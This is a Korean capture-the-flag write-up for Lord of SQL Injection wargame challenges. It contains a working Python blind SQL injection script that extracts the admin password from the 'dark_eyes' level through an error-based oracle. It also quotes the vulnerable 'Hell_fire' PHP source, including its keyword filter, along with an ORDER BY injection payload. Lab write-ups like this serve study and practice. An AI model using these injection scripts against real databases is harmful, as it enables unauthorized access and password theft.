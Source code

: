 mysql을 사용해 test 해보니 **select 1 union select [조건]** 에서 조건이 참이면 행이 하나만 출력된다.<br>
이를 이용해서 악의적인 쿼리가 참인 경우에만 오류가 나지 않도록 만든다.
```python
import requests
url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for len in range(100):
  param = {'pw': f"' or id='admin' and pw=(select 1 union select length(pw) = {len})#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if "select id from prob_dark_eyes where" in res.text:
    print(len)
    break

length = 8
password = ""
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    param = {'pw': f"' or id='admin' and pw=(select 1 union select ord(substr(pw,{str(len)},1))={str(pw)})#"}
    res = requests.get(url=url, params=param, cookies=cookie)
    if "select id from prob_dark_eyes where" in res.text:
      password += chr(pw)
      break
        
print(password.lower())
```
<br>

## Hell_fire
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```
### exploit
```sql
select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}
-> select id,email,score from prob_hell_fire where 1 order by id DESC
payload = id DESC
```
이러한 값을 입력하여 DB에 저장된 값을 볼 수 있다.<br>